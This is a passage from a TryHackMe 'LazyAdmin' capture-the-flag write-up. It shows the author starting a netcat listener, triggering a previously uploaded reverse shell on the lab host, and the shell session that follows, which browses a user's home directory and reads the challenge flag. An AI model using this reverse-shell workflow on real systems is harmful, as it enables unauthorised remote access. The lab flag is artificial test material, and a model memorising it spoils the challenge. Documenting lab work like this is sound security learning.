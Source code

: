 ## Netcat

We can then activate the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) by going to `http://lazy.thm/content/inc/ads/Rev_Shell`, but first we need to setup a [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener by using the bash command:

```
nc -lvnp 1234
```

This gives the reverse shell something to connect back to.

<img src="../../2%20-%20Resources/Others/Flameshots/3e3eb8cb1fbe2e85c52b7871c73beae2.png" alt="3e3eb8cb1fbe2e85c52b7871c73beae2.png" width="314" height="135" class="jop-noMdConv">

And once we click it we have it :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/LazyAdmin]
└─$ nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.205.167] 42568
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux                                                                                       
 18:32:12 up  1:08,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```

